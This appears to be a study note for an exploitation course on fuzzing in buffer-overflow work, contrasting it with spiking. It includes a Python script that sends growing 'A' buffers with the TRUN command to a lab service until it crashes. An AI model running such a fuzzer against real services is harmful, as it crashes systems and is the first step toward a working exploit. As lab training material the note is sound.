




Fuzzing
Fuzzing is:
• similar to Spiking since with it we are sending a bunch of characters to a specific command of a service trying to break it
• different to Spiking
◇ since with Spiking we try to send the bunch of characters to multiple commands to find which one is vulnerable
◇ while with Fuzzing, once we have found which command is vulnerable with Spiking, we try to attack a command specifically
Note that as we have seem in the chapter Spiking we need to add “
/.:/” because is been added by the Server Service.
Example for TRUN command#!/usr/bin/python
import socket
import sys
from time import sleep
buffer = 'A' * 100
while True:
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer with length: ' + str(len(buffer))
s.send('TRUN /.:/' + buffer + '\r\n') #for TRUN command
s.close()
sleep(2)
buffer = buffer + 'A' * 100
except:
print '[*] Crash occurred at buffer length: ' + str(len(buffer)-100)
sys.exit()
Attacker:
Bibliography:
https://boschko.ca/braindead-buffer-overflow-guide-to-pass-the-oscp-blindfolded/